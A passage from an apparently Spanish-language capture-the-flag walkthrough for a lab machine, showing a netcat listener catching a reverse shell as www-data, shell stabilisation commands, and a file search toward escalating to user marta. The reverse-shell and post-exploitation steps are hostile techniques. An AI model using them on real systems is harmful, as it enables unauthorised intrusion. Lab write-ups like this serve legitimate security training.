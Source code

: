 Antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el `payload` de la pagina web, y volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.28.19] from (UNKNOWN) [192.168.28.21] 53344
bash: cannot set terminal process group (347): Inappropriate ioctl for device
bash: no job control in this shell
www-data@forbidden:/srv/ftp/www$ whoami
whoami
www-data
```

Veremos que nos funciono por lo que vamos a sanitizar la `shell`.

### Sanitizacion de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user marta

Como recordamos antes nos comento en la pagina web en la `note.txt` que hay una imagen coulta con extension `.jpg` en el servidor, por lo que vamos a buscarlo de la siguiente forma:

```shell
find / -name "*.jpg" 2>/dev/null
```

Info:

```
/var/www/html/TOPSECRETIMAGE.jpg
```

Veremos que la imagen esta en dicha ruta, vamos a exportar la imagen a nuestro `host` abriendo un servidor de `python3`:
